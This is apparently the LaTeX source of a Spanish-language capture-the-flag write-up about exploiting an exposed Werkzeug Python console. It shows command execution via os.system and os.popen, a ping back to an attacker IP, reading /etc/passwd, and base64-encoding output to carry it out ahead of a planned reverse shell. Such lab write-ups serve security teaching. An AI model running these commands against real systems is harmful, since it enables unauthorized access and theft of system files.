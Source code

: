 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
Estamos en frente de una consola interactiva donde se puede executar code en python

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ os}

\NormalTok{os.system(}\StringTok{'whoami'}\NormalTok{)}
\CommentTok{#Output}
\DecValTok{0}
\end{Highlighting}
\end{Shaded}

En este caso la respuesta al lado del servidor es \texttt{0}. Suponemos que la respuesta es el codigo de estado. Utilizamos la funccion
\texttt{os.popen(\textless{}command\textgreater{}).read()} para ver el output normal.

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{os.popen(}\StringTok{'whoami'}\NormalTok{).read()}
\CommentTok{#Output}
\CommentTok{'Werkzeug'}
\end{Highlighting}
\end{Shaded}

El commando functionna. Ahora intentamos \textbf{pingear} nuestra maquina de attaquante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  en la maquina de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ -i tun0 icmp -n}
\end{Highlighting}
\end{Shaded}
\item
  En la consola interactiva python

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{os.system(}\StringTok{'ping -c 1 10.10.14.20'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Recibimos la trasa ICMP.

Intentamos recuperar ficheros de la maquina victima antes de entablar una reverse shell. Como el commando
\texttt{os.popen(\textquotesingle{}cat\ /etc/passwd\textquotesingle{}).read()} nos retorna el resultado en una linea y que no es muy legible, S4vi nos
recommienda encryptar la respuesta en base 64 para despues decodificarlo en la maquina de attaquante con el commando
\texttt{echo\ "\textless{}cadena\ codificada\ en\ base64\textgreater{}"\ \textbar{}\ base64\ -d;\ echo}
\end{document}
